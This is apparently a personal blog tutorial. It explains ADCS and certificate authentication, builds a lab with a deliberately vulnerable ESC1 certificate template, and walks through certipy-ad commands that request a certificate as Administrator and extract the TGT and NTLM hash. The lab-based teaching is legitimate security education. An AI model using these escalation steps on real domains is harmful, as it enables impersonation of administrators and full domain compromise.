## Introduction
---
Here’s some quick context for this blog series. When I started with Active Directory, I learned how to map a domain with BloodHound. There are two well-known ways to collect domain data. My preferred way is using `bloodhound-python` from the attacker machine. The other way is using `SharpHound.exe` on a compromised domain machine, and then copying the results back.

When I share this with my friends, I usually say `SharpHound.exe` is better because `bloodhound-python` doesn’t always collect everything. When they ask what it misses, I often say ADCS data. That was true at one point. I’m not sure about the current state of `bloodhound-python`. And that kept me wondering: what is ADCS, anyway? So, instead of casually bringing it up to my friends without really knowing what it was, I decided to take it as a challenge to dig into ADCS attacks and build up my knowledge of Active Directory attacks. 

However, to make understanding it easier and the learning process more fun, I decided to add a theme to this series. The theme I chose was Hololive. I thought it would be more interesting to read if the examples and explanations had something familiar running through them. Hololive, for anyone not aware, is an organisation that manages VTubers. And since I spend enough time watching them already, it felt natural to use that as the backdrop for this series.

<br></br>

## ADCS Basics
---
Before we build the labs, we need to cover some terms first:
- **PKI (Public Key Infrastructure):** A system to manage certificates and public key encryption
- **ADCS (Active Directory Certificate Services):** Microsoft’s implementation of PKI
- **CA (Certificate Authority):** A PKI server that issues certificates
- **Enterprise CA:** A CA integrated with Active Directory, which offers certificate templates
- **Certificate Template:** A collection of settings and policies that define the contents of a certificate issued by an enterprise CA
- **CSR (Certificate Signing Request):** A message sent to a CA to request a signed certificate
- **EKU (Extended/Enhanced Key Usage):** One or more object identifiers (OIDs) that define how a certificate can be used


### Certificate Templates
---
Elaborating further on certificate templates, these are settings defined by Active Directory objects and applied to certificates issued by an ADCS Enterprise CA. The policies of a certificate issued by an ADCS Enterprise CA are as follows:
- How long is the certificate valid for?
- What is the certificate used for?
- What subject is specified?
- Who is allowed to request a certificate?

Every certificate template has an OID. A unique OID is generated to represent each individual instance of a PKI. The most common OID in most PKI environments is Microsoft’s OID, `1.3.6.1.4.1.311`, which serves as the base value. The next two number sequences from the base value form Microsoft’s root OID for all enterprise-specific OIDs. The remaining portion of the OID generated is specific to that instance of PKI.

This is how you can query all of the `OID` on your CA:
```powershell
Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=holo,DC=live" -Filter {objectClass -eq "pKICertificateTemplate"} -Properties Name, DisplayName, msPKI-Cert-Template-OID | Select-Object Name, DisplayName, "msPKI-Cert-Template-OID"
```

<br></br>

Regarding what the certificate can be used for, there is an attribute called `pKIExtendedKeyUsage (EKU)` on Active Directory certificate template objects that contains an array of OIDs enabled for the template. These are the EKUs that enable certificate-based authentication:

| Description                  | OID                    |
| ---------------------------- | ---------------------- |
| Client Authentication        | 1.3.6.1.5.5.7.3.2      |
| PKINIT Client Authentication | 1.3.6.1.5.2.3.4        |
| Smart Card Logon             | 1.3.6.1.4.1.311.20.2.2 |
| Any Purpose                  | 2.5.29.37.0            |
| SubCA                        | (no EKUs present)      |

This is how you can query all of the `pKIExtendedKeyUsage` on your CA:
```powershell
Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=holo,DC=live" -Filter {objectClass -eq "pKICertificateTemplate"} -Properties Name, DisplayName, pKIExtendedKeyUsage | Select-Object Name, DisplayName, pKIExtendedKeyUsage
```

<br></br>

### Subject Alternative Names
---
Another term to understand, as this term will come up in at least half of the attacks we're going to be learning, is `Subject Alternative Name (SAN)`, which is an extension that allows additional identities to be bound to a certificate beyond the subject of the certificate. For instance, a web server with multiple domains can be included in a SAN so that the web server only needs a single HTTPS certificate. SAN options can include:
- Internet Electronic Mail Address
- DNS Name
- IP Address
- Uniform Resource Identifier (URI)



Since certificates are mapped to Active Directory accounts based on a User Principal Name (UPN), it can be used as a SAN as shown above. Based on the RFC documentation, because the SAN is considered to be definitely bound to the public key, all parts of the subject alternative name **MUST** be verified by the CA. This can be abused by disabling `Manager Approval and Authorised Signatures`, which will come up in a few attacks we'll be learning about. If the only subject identity included in the certificate is an alternative name form, then the subject distinguished name **MUST** be empty. However, based on the labs I have built and simulated ADCS attacks on, this is not true, but I'm not sure why. Lastly, if the subject field contains an empty sequence, then the issuing CA **MUST** include a SAN.

<br></br>

## What Are ADCS Attacks All About?
---
With the terminologies in mind, how do we use certificates issued by the CA to compromise a domain? As mentioned briefly in the Certificate Templates section, users are able to authenticate with a certificate. That is if the certificate template allows it and has the EKU.



Technically this is how certificate authentication works:

1. The user sends a CSR request to the CA server. The CSR includes:
   - The certificate template name
   - The subject of the certificate
   - The user's public key

2. Once the CA verifies and validates the CSR, it will issue a certificate requested by the user.

3. To authenticate, the user sends an `AS-REQ` to initiate `Public Key Cryptography for Initial Authentication in Kerberos (PKINIT)` to the Domain Controller. The request includes:
   - The certificate issued by the CA
   - A signature created with the private key associated with the certificate
   - The user principal name (UPN) or SAM account

4. Since the Domain Controller authenticates the user by certificates rather than hashes, the `Key Distribution Center (KDC)` checks if:
   - The certificate was issued by a trusted CA which must be within the NTAuth Store.
   - The certificate is **not expired, not revoked**.
   - The certificate's **Subject/SAN** matches a valid AD account (e.g., Administrator).
   - The **EKU** (Enhanced Key Usage) includes "SmartcardLogon" or "ClientAuth".
   - The signature checks out by verifying the signed proof of possession using the public key from the provided certificate. This means the sender really has the private key.

5. A session key is then securely negotiated with the client using PKINIT.

6. Finally, an `AS-REP` is sent back to the user containing the `Ticket-Granting-Ticket (TGT)` which contains the session key. The response is also signed with the Domain Controller's Certificate to prove the legitimacy of the Domain Controller.

<br></br>

In layman's terms this happens:



In summary, it allows a user to authenticate into a domain using a certificate instead of a set of credentials. Similarly to how we enter a building with an NFC/RFID card instead of providing our credentials to a guard (technically speaking, it would be the building instead of a guard).

<br></br>

## Active Directory Environment
---
Now that you know the basis of how certificate authentication works, let's set up the lab. To save time, follow [Heath Adams' tutorial](https://youtu.be/xftEuVQ7kY0?si=CT5d7Iw_KsVsjoKR) to set up the Active Directory environment. ADCS attacks are categorised as `Enterprise Security Certificate (ESC)` and there are 16 types of attacks associated with it. However, the attacks will be separated so that the blog posts won't be too long.



By the end of this series, you’ll have built an environment with a Domain Controller running ADCS, two workstations connected to it, and a child Domain Controller linked to the root Domain Controller.

<br></br>



However, in Part 4 I ran into issues with relay attacks when ADCS was installed on the Domain Controller. I’ll cover that in detail in Part 4. Because of this, it’s better to keep your CA separate from the Domain Controller. The setup is the same as in the tutorial, but you’ll need to join your CA server to the domain first. If you don’t have enough computing resources or plan to skip the hands-on part of Part 4, then running ADCS on the Domain Controller won’t be a problem.

<br></br>

## ESC1 Attack Lab Setup
---

### Create a Low Privilege User
---



Once you have set up your Active Directory environment, let's create a low-privilege user.

<br></br>


If you want to follow along, the domain name configured for my Active Directory environment is `holo.live`. The Domain Controller has a NetBIOS name of `HOLOLIVE`. With this series being Hololive-themed, our low-privilege user is none other than Gawr Gura!
```
gawrgura@holo.live:Password1
```

<br></br>



Once everything is up and running, launch `Certificate Authority`, locate the **"Certificate Templates"** object, and click on **"Manage"** after right-clicking it.

<br></br>



Right here, there are many certificate templates, but not all of them are published on the CA. For ESC1, just duplicate the **"User"** certificate template by right-clicking the template and selecting **"Duplicate Template"**.

<br></br>



In **"General"**, name the newly duplicated template `ESC1-Vuln`.

<br></br>



Within **"Security"**, ensure that the **"Domain Users"** group is added and that they are able to **"Read"** and **"Enroll"** certificate templates. This is to ensure that users are able to utilise the certificate templates by enrolling themselves.

<br></br>



The main vulnerability lies within this setting. When a user is able to supply a SAN, they can request a certificate that can be used as another user instead of their own. Within **"Subject Name"**, ensure that the **"Supply in request"** option is selected.

<br></br>



Next, ensure that **"CA certificate manager approval"** is not selected within **"Issuance Requirements"**.

<br></br>



Click **"Apply"** and **"OK"** to create the new certificate template. With the new template, let's publish it to the domain! Right-click **"Certificate Templates"** and choose **"New"**, then **"Certificate Template to Issue"**. Finally, select the certificate template you duplicated. In my case, it will be `ESC1-Vuln`.

<br></br>

### Finding Vulnerable Certificate Templates
---


```bash
certipy-ad find \
	-u 'gawrgura@holo.live' \
	-p "Password1" \
	-dc-ip 192.168.234.149 \
	-vulnerable \
	-enabled \
	-ldap-scheme ldap
```

With a vulnerable certificate template, let's start enumerating the domain for other vulnerable certificate templates. This can be done with a tool called `certipy-ad`. There is also a Windows executable for it. This tool automates the process of querying the CA and sending requests to the Domain Controller and the CA.

Append the `find` command as an argument, along with the credentials of the low-privilege user defined by the `-u` and `-p` switches. The IP address of the Domain Controller is also needed with the `-dc-ip` switch. Finally, to make the results more readable, add the `-vulnerable` and `-enabled` switches to display only the enabled certificate templates that are vulnerable.

<br></br>

```plaintext {"We can use this certificate template to authenticate:":5-6} {"We can supply a SAN to request a certificate on behalf of another user:":10-11}
Template Name                       : ESC1-Vuln
Display Name                        : ESC1-Vuln
Certificate Authorities             : HOLOLIVE-CA
Enabled                             : True

Client Authentication               : True
Enrollment Agent                    : False
Any Purpose                         : False
Enrollee Supplies Subject           : True

Certificate Name Flag               : EnrolleeSuppliesSubject
Enrollment Flag                     : IncludeSymmetricAlgorithms
									  PublishToDs
Private Key Flag                    : ExportableKey
Extended Key Usage                  : Client Authentication
									  Secure Email
									  Encrypting File System
Requires Manager Approval           : False
Requires Key Archival               : False
Authorized Signatures Required      : 0
Schema Version                      : 2
Validity Period                     : 1 year
Renewal Period                      : 6 weeks
Minimum RSA Key Length              : 2048
Template Created                    : 2025-08-23T09:18:13+00:00
Template Last Modified              : 2025-08-23T09:18:42+00:00
Permissions
  Enrollment Permissions
	Enrollment Rights               : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
									  HOLO.LIVE\Authenticated Users
  Object Control Permissions
	Owner                           : HOLO.LIVE\Administrator
	Full Control Principals         : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Owner Principals          : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Dacl Principals           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Enterprise Admins
	Write Property Enroll           : HOLO.LIVE\Domain Admins
									  HOLO.LIVE\Domain Users
									  HOLO.LIVE\Enterprise Admins
[+] User Enrollable Principals      : HOLO.LIVE\Authenticated Users
									  HOLO.LIVE\Domain Users
[!] Vulnerabilities
  ESC1                              : Enrollee supplies subject and template allows client authentication.
```

As you can see, `certipy-ad` is able to identify that the certificate template we created is vulnerable, as the template allows the user to supply a SAN and also allows client authentication.

<br></br>

### Exploiting The Vulnerable Certificate Template
---


```bash
certipy-ad req \
	-u gawrgura@holo.live \
	-p "Password1" \
	-ca HOLOLIVE-CA \
	-template ESC1-Vuln \
	-upn Administrator@holo.live \
	-dc-ip 192.168.234.149 \
	# if your Certificate Authority is on a separate server \
	-target CA.holo.live
```

To exploit this vulnerability, we just have to request a certificate as the user `gawrgura@holo.live` from the vulnerable `ESC1-Vuln` template, specified with the `-template` switch, along with the Certificate Authority name specified with the `-ca` switch. Finally, supply a SAN with the `-upn` switch. In this case, it will be `administrator@holo.live`. This allows the attacker to request a certificate that can be used on behalf of the Administrator. If your CA is on a separate server, use the `-target` switch and provide the CA’s UPN as the argument.

<br></br>



```bash
certipy-ad auth \
	-pfx administrator.pfx \
	-dc-ip 192.168.234.149
```

Once a certificate has been issued to us, `certipy-ad` can be used to retrieve a Ticket-Granting Ticket using the `auth` command, along with the certificate file specified with the `-pfx` switch. The Ticket-Granting Ticket contains the NTLM hash of the user, which is extracted by `certipy-ad`.

<br></br>

### Errors I Have Encountered
---
During my first installation of Active Directory Certificate Services, the server might not have generated a certificate for the Domain Controller, which is needed for signing the Ticket-Granting Ticket. This results in errors when authenticating with `certipy-ad`. The issue can be resolved by requesting a new certificate from the CA.



Run `mmc.exe` as **Administrator**, then navigate to `File` → `Add/Remove Snap-in`.

<br></br>



Select `Certificates`.

<br></br>



Select `Computer account`.

<br></br>


	
Then, navigate to `Certificates` → `Personal` → `Certificates`. Right-click it and choose `Request New Certificate` from `All Tasks`.

<br></br>



Make sure `Domain Controller Authentication` is selected, then click `Enroll`.

<br></br>

```
certutil -pulse
```

If you can’t request a certificate for the Domain Controller through the GUI, use the command above to request it instead.

<br></br>

## Conclusion
---


Overall, starting this blog series has taught me a lot about Active Directory Certificate Services from the get-go. At first, I was scared to venture into this complicated domain (yes, the pun was intended). However, as I got into it, it was very interesting to learn about, and it kinda brought me back to the days when I first started learning Active Directory, where I built a ton of labs trying to figure out how to configure the vulnerabilities and researching problems that popped up while I was configuring those vulnerabilities. So, I hope y'all will be able to catch Gawr Gura in the next blog post, where we'll look into other vulnerabilities of ADCS and how to exploit them!

## References
---
- https://posts.specterops.io/certified-pre-owned-d95910965cd2
- https://ethicalchaos.dev/2020/10/04/attacking-smart-card-based-active-directory-networks/
- https://www.pkisolutions.com/object-identifiers-oid-in-pki/
- https://learn.microsoft.com/en-us/windows/security/identity-protection/smart-cards/smart-card-certificate-requirements-and-enumeration#upn-in-subject-alternative-name-field
- https://datatracker.ietf.org/doc/html/rfc5280#section-4.2.1.6
- https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-prevent-users-request-certificate
- https://labs.lares.com/adcs-exploits-investigations-pt2/
- https://sensepost.com/blog/2025/diving-into-ad-cs-exploring-some-common-error-messages/

## Art Sources
---
- https://x.com/DDOLBANG11
- https://tenor.com/view/gawr-gura-gura-gif-20469797
- https://www.reddit.com/user/SuperJohnny25/